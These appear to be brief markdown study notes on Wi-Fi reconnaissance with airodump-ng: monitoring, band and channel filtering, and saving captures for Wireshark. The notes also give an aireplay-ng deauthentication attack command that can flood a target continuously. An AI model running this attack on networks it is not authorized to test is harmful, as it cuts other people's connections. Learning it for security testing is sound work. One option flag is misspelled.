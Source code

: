 ### Monitoring using `airodump-ng`

>monitor mode should be set

```shell
airodump-ng <interface>
```

Specific band:
```shell
airodump-ng --band <bands> <interface>
```
- check if wireless adapter supports the frequency
- bands:
	- a: 5GHz
	- b,c: 2.4 GHz
	- n: 2.4GHz, 5GHz
	- ac: <6GHz

Specific network:
```shell
airodump-ng --bssid <bssid> --channel <channel> <interface>
```
- 2nd section in output shows the clients

Saving captured data:
```shell
airodump-ng --bssid <bssid> --channell <channel> --write <filename> <interface>
```
- the `filename-01.cap` file can be analysed using wireshark.


### Deauth Attack
```shell
aireplay-ng --deauth <numDeauthPackets> -a <networkMac> -c <targetMac> <interface>
```
- `0` means continuously sending packets
- verify if working on 5Ghz



